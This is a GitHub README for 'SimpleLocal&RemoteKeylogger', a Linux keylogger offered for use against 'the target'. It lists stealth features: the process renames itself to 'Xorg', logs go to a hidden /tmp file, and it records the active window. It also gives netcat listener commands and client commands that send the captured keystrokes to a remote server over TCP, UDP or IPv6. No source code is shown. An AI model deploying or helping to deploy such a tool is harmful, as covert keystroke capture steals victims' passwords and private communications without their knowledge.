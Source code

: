 # SimpleLocal&RemoteKeylogger

##DESCRIPTION:

- Simple keylogger that runs on Linux either locally or remotely.
- It shows the active window on which the target is writing.
- It shows the keyboard layout(e.g.: us, it, colemak, etc..).
- Process name is renamed as "Xorg".
- It works with both TCP and UDP and with ipv6 too.
- It must be run as root.

##SYNOPSIS:
```
#./slrk [OPTIONS]
```
##OPTIONS:
```
-d <input-device>:                  If not specified, the default device is '/dev/input/by-path/***kbd'
-o <output-file>:                   It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
-m remote -a <IP-ADDR> -p <PORT>:   It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>
```
##EXAMPLES:

- TCP:
```
Server$ nc -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
- UDP:
```
Server$ nc -u -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
- IPv6:
```
Server$ nc -6 -lvp 8888 > logger.txt
Client#./slrk -m remote -a ::1 -p 8888
```
##NOTES:
####Supported keyboards:
- QWERTY: us, es, it. 
- AZERTY: fr.
- QWERTZ: de.
- DVORAK: us.
- COLEMAK
- default: qwerty-us
We can change keyboard with:
```bash
$setxkbmap dvorak
```

